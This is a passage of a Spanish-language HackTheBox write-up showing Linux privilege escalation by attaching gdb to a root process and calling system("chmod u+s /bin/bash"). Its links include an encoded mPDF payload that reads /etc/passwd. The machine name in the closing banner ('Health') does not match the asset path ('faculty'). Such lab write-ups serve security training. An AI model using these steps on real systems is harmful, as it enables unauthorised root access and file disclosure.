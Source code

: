Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles 

vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores 

podemos buscar los permisos con el comado find con el siguite comando.

Gdb es inusual, existe un posible [exploit] en hacktricks, podemos ver que nuestro 

grupo puede ejecutarlo, además tiene una capabilitie.

[exploit]: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

![list](/assets/img/faculty/Kali-2022-10-24-23-16-38.png){:.lead width="800" height="100" loading="lazy"}

Podemos utilizar un proceso que este ejecutando root para con gdb asignar suid a la bash.

```bash
ps faux | grep ^root | grep python3
```
{:.note}
Localizamos proceso.




```bash
gdb -p 29
```
{:.note}
atacamos el proseso en mi caso 29 es syo es otro.




```bash
call (void)system("chmod u+s /bin/bash")
```
{:.note}
En el contexto (gdb).




```bash
quit
```
{:.note}
En el contexto (gdb) y hacemos `bash -p`.




Ya lo ultimo es buscar la flag de superusuario en el escritorio de root.

***

```shell
🎉 Felicitaciones ya has comprometido Health de HackTheBox 🎉
```
{:.centered}
***

[payload]: https://github.com/mpdf/mpdf/issues/356
[CyberChef]: https://gchq.github.io/CyberChef/#recipe=URL_Encode(false)URL_Encode(false)To_Base64('A-Za-z0-9%2B/%3D')&input=PGFubm90YXRpb24gZmlsZT0iL2V0Yy9wYXNzd2QiIGNvbnRlbnQ9Ii9ldGMvcGFzc3dkIiBpY29uPSJHcmFwaCIgdGl0bGU9IkF0dGFjaGVkIEZpbGU6IC9ldGMvcGFzc3dkIiBwb3MteD0iMTk1IiAvPg
[vulnerabilidad]: https://hackerone.com/reports/728040